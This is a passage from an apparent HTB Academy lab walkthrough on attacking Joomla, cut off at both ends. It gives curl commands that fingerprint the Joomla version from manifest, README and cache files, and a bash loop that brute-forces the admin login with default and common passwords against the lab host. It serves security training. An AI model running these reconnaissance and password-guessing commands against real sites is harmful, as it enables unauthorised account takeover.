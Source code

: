 ```bash
    }
}
```

### Geographic and Technology Statistics
```bash
# Additional API endpoints for intelligence
curl -s https://developer.joomla.org/stats/php_version | jq .
curl -s https://developer.joomla.org/stats/db_type | jq .
curl -s https://developer.joomla.org/stats/server_os | jq .
```

---

## HTB Academy Lab Solutions

### Lab 1: Version Fingerprinting
**Question:** "Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)"

**Solution Methodology:**
```bash
# Method 1: XML Manifest (Most Accurate)
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | grep -oP '<version>\K[^<]+'

# Method 2: README.txt Analysis
curl -s http://app.inlanefreight.local/README.txt | head -n 10 | grep -i version

# Method 3: Cache XML File
curl -s http://app.inlanefreight.local/plugins/system/cache/cache.xml | grep -oP 'version="[^"]*"'

# Method 4: DroopeScan Verification
droopescan scan joomla --url http://app.inlanefreight.local

# Expected format: 3.9.4 (or similar version number)
```

### Lab 2: Admin Password Discovery
**Question:** "Find the password for the admin user on http://app.inlanefreight.local"

**Solution Methodology:**
```bash
# Method 1: Default Credentials Testing
curl -X POST http://app.inlanefreight.local/administrator/index.php \
  -d "username=admin&passwd=admin&task=login" \
  -v

# Method 2: Common Password List
passwords=(
    "admin"
    "password" 
    "123456"
    "password123"
    "admin123"
)

for pass in "${passwords[@]}"; do
    response=$(curl -s -X POST "http://app.inlanefreight.local/administrator/index.php" \
        -d "username=admin&passwd=$pass&task=login")
    
    if [[ $response != *"Username and password do not match"* ]]; then
        echo "Found password: $pass"
        break
```